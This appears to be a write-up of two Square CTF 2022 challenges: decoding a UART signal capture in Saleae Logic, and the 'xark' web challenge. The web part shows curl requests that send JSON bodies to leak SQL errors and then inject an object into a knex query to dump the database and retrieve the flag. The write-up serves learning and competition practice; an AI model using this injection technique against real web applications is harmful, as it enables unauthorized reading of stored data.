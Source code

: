 ```yaml
---
title: "Square CTF 2022"
date: 2022-11-21
---
```


# Square CTF 2022

## [sqUARe paymenT terminal](https://2022.squarectf.com/challenge?square-payment-terminal)
misc  

sqUARe paymenT terminal is a UART challenge. A `Terminal_Cap.sal` file is provided. 

checking out the file:
```sh
$ file Terminal_Cap.sal
Terminal_Cap.sal: Zip archive data, at least v2.0 to extract, compression method=deflate

$ unzip Terminal_Cap.sal 
Archive:  Terminal_Cap.sal
  inflating: digital-0.bin           
  inflating: digital-1.bin           
  inflating: digital-2.bin           
  inflating: digital-3.bin           
  inflating: digital-4.bin           
  inflating: digital-5.bin           
  inflating: digital-6.bin           
  inflating: digital-7.bin           
  inflating: meta.json
```

We have 8 binary files and a `meta.json`. Fortunately, this file has some good clues:

<details>
  <summary>`meta.json`</summary>
  ```json                
  {
    "version": 15,
    "data": {
      "renderViewState": {
        "leftEdgeTimeSec": 2.347354838709678,
        "timeSecPerPixel": 0.0072688172043010755
      },
      "captureProgress": {
        "maxCollectedTime": 10.815999999999999,
        "processedInterval": {
          "begin": 0,
          "end": 10.837333333333333
        },
        "memoryUsedMb": 0,
        "isProcessing": false
      },
      "captureStartTime": {
        "unixTimeMilliseconds": 1667595522858,
        "fractionalMilliseconds": 0.56
      },
      "timingMarkers": {
        "markers": {},
        "pairs": {}
      },
      "measurements": [],
      "highLevelAnalyzers": [],
      "analyzers": [],
      "rowsSettings": [
        {
          "id": "b718c61e-499e-4190-bdcc-c2490165f32e",
          "height": 100,
          "isMarkedHidden": false,
          "type": "channel",
          "name": "Channel 0",
          "channel": {
            "category": "legacy",
            "type": "Digital",
            "deviceChannel": 0
          }
        },
        {
          "id": "25e5f4a8-f0b4-4c4f-86f4-1e6148d47b30",
          "height": 100,
          "isMarkedHidden": false,
          "type": "channel",
          "name": "Channel 1",
          "channel": {
            "category": "legacy",
            "type": "Digital",
            "deviceChannel": 1
          }
        },
        {
          "id": "c37287c6-be0a-4a06-8644-de1dcc84b038",
          "height": 100,
          "isMarkedHidden": false,
          "type": "channel",
          "name": "Channel 2",
          "channel": {
            "category": "legacy",
            "type": "Digital",
            "deviceChannel": 2
          }
        },
        {
          "id": "39cc1040-bd89-4faf-ba36-d9884cc968d8",
          "height": 100,
          "isMarkedHidden": false,
          "type": "channel",
          "name": "Channel 3",
          "channel": {
            "category": "legacy",
            "type": "Digital",
            "deviceChannel": 3
          }
        },
        {
          "id": "5c1c9b4e-ccb2-4e00-bea4-e257d2aa5785",
          "height": 100,
          "isMarkedHidden": false,
          "type": "channel",
          "name": "Channel 4",
          "channel": {
            "category": "legacy",
            "type": "Digital",
            "deviceChannel": 4
          }
        },
        {
          "id": "8d93d75b-0896-4a10-a1ab-186cea0b80a3",
          "height": 100,
          "isMarkedHidden": false,
          "type": "channel",
          "name": "Channel 5",
          "channel": {
            "category": "legacy",
            "type": "Digital",
            "deviceChannel": 5
          }
        },
        {
          "id": "fac1b78b-623e-48ee-8e47-0573eca9ddfb",
          "height": 100,
          "isMarkedHidden": false,
          "type": "channel",
          "name": "Channel 6",
          "channel": {
            "category": "legacy",
            "type": "Digital",
            "deviceChannel": 6
          }
        },
        {
          "id": "97185903-d1b4-455c-9dd4-ad41686ae1ba",
          "height": 100,
          "isMarkedHidden": false,
          "type": "channel",
          "name": "Channel 7",
          "channel": {
            "category": "legacy",
            "type": "Digital",
            "deviceChannel": 7
          }
        }
      ],
      "captureSettings": {
        "bufferSizeMb": 3072,
        "captureMode": "Circular",
        "stopAfterSeconds": 100,
        "trimAfterCapture": false,
        "trimTimeSeconds": 5,
        "digitalTriggerSettings": {
          "type": {
            "mode": "Edge",
            "name": "Rising",
            "pattern": "Rising"
          },
          "timeAfterTriggerToStop": 1,
          "linkedChannels": [],
          "duration": {
            "min": 0.001,
            "max": 0.01
          }
        },
        "glitchFilter": {
          "enabled": false,
          "channels": []
        },
        "connectedDevice": {
          "name": "Logic",
          "deviceId": "10367413859617842647",
          "deviceType": "Logic",
          "isSimulation": false,
          "capabilities": {
            "channelCapabilities": [
              {
                "type": "Digital",
                "index": 0,
                "capability": "AlwaysEnabled"
              },
              {
                "type": "Digital",
                "index": 1,
                "capability": "AlwaysEnabled"
              },
              {
                "type": "Digital",
                "index": 2,
                "capability": "AlwaysEnabled"
              },
              {
                "type": "Digital",
                "index": 3,
                "capability": "AlwaysEnabled"
              },
              {
                "type": "Digital",
                "index": 4,
                "capability": "AlwaysEnabled"
              },
              {
                "type": "Digital",
                "index": 5,
                "capability": "AlwaysEnabled"
              },
              {
                "type": "Digital",
                "index": 6,
                "capability": "AlwaysEnabled"
              },
              {
                "type": "Digital",
                "index": 7,
                "capability": "AlwaysEnabled"
              }
            ],
            "sampleRateOptions": [
              {
                "digital": 24000000
              },
              {
                "digital": 16000000
              },
              {
                "digital": 12000000
              },
              {
                "digital": 8000000
              },
              {
                "digital": 4000000
              },
              {
                "digital": 2000000
              },
              {
                "digital": 1000000
              },
              {
                "digital": 500000
              },
              {
                "digital": 250000
              },
              {
                "digital": 200000
              },
              {
                "digital": 100000
              },
              {
                "digital": 50000
              },
              {
                "digital": 25000
              }
            ],
            "isPhysicalDevice": true
          },
          "settings": {
            "enabledChannels": [
              {
                "type": "Digital",
                "index": 0
              },
              {
                "type": "Digital",
                "index": 1
              },
              {
                "type": "Digital",
                "index": 2
              },
              {
                "type": "Digital",
                "index": 3
              },
              {
                "type": "Digital",
                "index": 4
              },
              {
                "type": "Digital",
                "index": 5
              },
              {
                "type": "Digital",
                "index": 6
              },
              {
                "type": "Digital",
                "index": 7
              }
            ],
            "sampleRate": {
              "digital": 24000000
            }
          }
        }
      },
      "digitalTriggerTime": -1,
      "name": "Session 0",
      "dataTable": {
        "columns": {
          "analyzerIdentifier": {
            "isActive": true,
            "width": 18,
            "isDefault": true,
            "baseKey": "analyzerIdentifier",
            "excludeFromSearch": true
          },
          "frameType": {
            "isActive": true,
            "width": 75,
            "isDefault": true,
            "baseKey": "frameType",
            "excludeFromSearch": false
          },
          "start": {
            "isActive": true,
            "width": 110,
            "isDefault": true,
            "baseKey": "start",
            "excludeFromSearch": true
          },
          "duration": {
            "isActive": true,
            "width": 80,
            "isDefault": true,
            "baseKey": "duration",
            "excludeFromSearch": true
          },
          "data_data": {
            "width": 75,
            "baseKey": "data",
            "isActive": false
          },
          "data_error": {
            "width": 75,
            "baseKey": "error",
            "isActive": false
          }
        }
      },
      "analyzerTrigger": {
        "settings": {
          "enabled": false,
          "searchQuery": "",
          "holdoffSeconds": 0.2
        }
      },
      "timeManager": {
        "t0": {
          "type": "startOfCapture"
        }
      },
      "captureNotes": ""
    },
    "binData": [
      {
        "type": "Digital",
        "index": 0,
        "file": "./digital-0.bin"
      },
      {
        "type": "Digital",
        "index": 1,
        "file": "./digital-1.bin"
      },
      {
        "type": "Digital",
        "index": 2,
        "file": "./digital-2.bin"
      },
      {
        "type": "Digital",
        "index": 3,
        "file": "./digital-3.bin"
      },
      {
        "type": "Digital",
        "index": 4,
        "file": "./digital-4.bin"
      },
      {
        "type": "Digital",
        "index": 5,
        "file": "./digital-5.bin"
      },
      {
        "type": "Digital",
        "index": 6,
        "file": "./digital-6.bin"
      },
      {
        "type": "Digital",
        "index": 7,
        "file": "./digital-7.bin"
      }
    ]
  }
  ```
</details>

Main clue that helped for me was `"captureMode": "Circular"`. Googling this led to the discussion forum of the Saleae Logic 2 [](https://discuss.saleae.com/). We download the software from the site and open the capture file. 

![terminalcap_saleae]({{"../assets/2022-11-21-Square_CTF_0222/terminalcap_saleae.png" | relative_url }})

[Lots](https://en.wikipedia.org/wiki/Universal_asynchronous_receiver-transmitter) [of](https://support.saleae.com/protocol-analyzers/analyzer-user-guides/using-async-serial/decode-uart) [reading](https://support.saleae.com/protocol-analyzers/analyzer-user-guides/using-async-serial) plus trial and error in the Logic software helped find the baud rate. By zooming into one part of the signal and highlighting (shift+click+drag), we can see the baud rate.

![big_analysis_mode]({{"../assets/2022-11-21-Square_CTF_0222/big_analysis_mode.png" | relative_url }})

We use the googling and get 38.4 kHz baud rate = 38400 bits/s. Enter this into the Async Serial Analyzer and we get our flag.

![big_analysis_mode_2]({{"../assets/2022-11-21-Square_CTF_0222/big_analysis_mode_2.png" | relative_url }})
![big_analysis_mode_3]({{"../assets/2022-11-21-Square_CTF_0222/big_analysis_mode_3.png" | relative_url }})


## [xark](https://2022.squarectf.com/challenge?xark)
web  

xark is an anonymous messaging website with provided source files. Sending SQL 
injections and xss payloads do not seem to work.

![xark mainpage]({{"../assets/2022-11-21-Square_CTF_0222/xark.png" | relative_url }})

### deadends

[knex cve](https://www.cvedetails.com/cve/CVE-2019-10757/)  
An old version of knex was vulnerable to sql injection. We know from package.json (`"knex": "^2.3.0",`) that this version of knex is not vulnerable to this.


/debug  

```json
{"client":"mysql","connection":{"host":"database","port":"3306","user":"xark","password":"*******","database":"xark","charset":"utf8mb4"}}
```


/crushes.js  
```js
document.addEventListener("DOMContentLoaded", () => {
    record.onsubmit = ev => {
      $('#recordSpinner').show();
      $.post("/record", $(record).serialize(), () => {
        $(main).empty();
        $('<p>').text("Saved!").appendTo(main);
      })
      .fail((jqXHR) => {
        console.error(jqXHR);
        $(main).empty();
        $('<code>').text("error: " + jqXHR.responseJSON.error).appendTo(main);
      });
      return false;
    }

    view.onsubmit = ev => {
      $('#viewSpinner').show();
      $.post("/data", $(view).serialize(), (data) => {
        if (data.length == 0) {
          $(main).empty();
          $('<i>').text("Sorry, no crushes :(").appendTo(main);
        } else {
          $(main).empty();
          $('<p>').html("<p>You have " + data.length + " crushes :)</p>").appendTo(main);
          const d = $('<ul>').appendTo(main);
          data.map(e => $('<li>').text(e.message).appendTo(d));
        }
      })
      .fail((jqXHR) => {
        console.error(jqXHR);
        $(main).empty();
        $('<code>').text("error: " + jqXHR.responseJSON.error).appendTo(main);
      });
      return false;
    };
});
```

### sending json

We know the flag is in the db.

index.js
```js
knex('crushes').insert({
            from: config.init.flag,
            to: config.init.flag,
            message: 'This is the flag!',
        }).then();
```

We must be able to pull this flag out of the db using the `/data` endpoint? But it seems that we only have control of the line `to: req.body.to`.
```js
app.post('/data', async (req, res) => {
    if (req.body.to) {
        const crushes = await knex('crushes')
            .select()
            .where({
                to: req.body.to
            })
            .limit(50);
        res.send(crushes);
    } else {
        res.status(400).send({});
    }
});
```

Lines 34-36 of index.js have an interesting import 
```js
app.use(express.urlencoded({
    extended: false
}));
```
The [express docs](https://expressjs.com/en/api.html#express.urlencoded) state:

  Returns middleware that only parses urlencoded bodies and only looks at requests where the Content-Type header matches the type option. 

Further down, we see that the default value for the `type` parameter is `"application/x-www-form-urlencoded"`. If we send json then the middleware does not look at the request?

We can use this to see the sql queries.
```sh
$ curl -d '{"to":"n","from":"m","message":["a","b"]}' -H "Content-Type: application/json" -X POST http://chals.2022.squarectf.com:4105/record
{"error":"insert into `crushes` (`from`, `message`, `to`) values ('m', 'a', 'b', 'n') - ER_WRONG_VALUE_COUNT_ON_ROW: Column count doesn't match value count at row 1"}%

$ curl -d '{"to":["n","m"]}' -H "Content-Type: application/json" -X POST http://chals.2022.squarectf.com:4105/data
{"error":"select * from `crushes` where `to` = 'n', 'm' limit 50 - ER_PARSE_ERROR: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ', 'm' limit 50' at line 1"}%
```

### solution

We get the flag by sending a request with `{"id":0}` in the `"to:"` field.

```sh
$ curl -d '{"to": {"id":0} }' -H "Content-Type: application/json" -X POST http://chals.2022.squarectf.com:4105/data
[{"id":1,"from":"flag{kn3x3d_chall3ng3_pls}","to":"flag{kn3x3d_chall3ng3_pls}","message":"This is the flag!"},{"id":2,"from":"a","to":"b","message":"...
<...>
```